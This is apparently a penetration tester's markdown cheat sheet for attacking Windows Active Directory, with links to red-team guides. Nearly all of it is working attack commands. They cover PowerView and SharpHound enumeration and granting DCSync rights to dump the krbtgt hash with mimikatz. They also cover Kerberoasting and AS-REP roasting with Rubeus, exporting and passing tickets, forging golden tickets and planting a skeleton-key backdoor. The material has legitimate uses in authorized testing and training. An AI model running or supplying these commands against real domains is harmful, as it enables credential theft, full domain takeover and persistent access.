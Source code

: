 # Resources

https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/active-directory-enumeration-with-powerview  

https://www.harmj0y.net/blog/redteaming/a-guide-to-attacking-domain-trusts/

https://www.varonis.com/blog/pen-testing-active-directory-environments-part-introduction-crackmapexec-powerview/

### [PowerView.ps1]

https://book.hacktricks.xyz/windows/basic-powershell-for-pentesters/powerview
https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993
```
get-aduser <username>
Get-NetDomain
```

### [Sharphound to extract active directory objects]
https://github.com/BloodHoundAD/SharpHound

```
Invoke-Bloodhound -CollectionMethod All -Domain domain.local -ZipFileName file.zip
```

### [Dumping credentials from the domain controller with DCSync]

https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync


1. Import the module
```
import-module .\PowerView.ps1
```

2. Add DCSync rights to user
```
Add-ObjectACL PrincipalIdentity user -Rights DCSync
```

3. Import Active Directory
```
Import-Module ActiveDirectory
```

4. Retrieve the permissions for user
```
(Get-Acl "ad:\dc=DOMAIN,dc=COM").Access | ? {$_.IdentityReference -match 'user' -and ($_.ObjectType -eq "1131f6aa-9c07-11d1-f79f-00c04fc2dcd2" -or $_.ObjectType -eq "1131f6ad-9c07-11d1-f79f-00c04fc2dcd2" -or $_.ObjectType -eq "89e95b76-444d-4c62-991a-0facbeda640c" ) }
```

5. Use mimikatz to dump credentials
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Mimikatz.md

```
lsadump::dcsync /user:krbtgt
```

Kerberoast
```
Rubeus.exe kerberoast
Rubeus.exe asreproast

dumps tickets containing the hashes hashes for all accounts:

mimikatz.exe

privilege::debug

sekurlsa::tickets /export

Impersonate their tickets

kerberos::ptt <ticket>

This will the hash and security identifier needed to create a golden ticket.

lsadump::lsa /inject /name:username

Generating the golden/silver ticket:

Kerberos::golden /user:<username> /domain:controller.local /sid:<SID> /krbtgt:<NTLM> /id:<ID>

Create a backdoor

misc::cmd
misc::skeleton
```
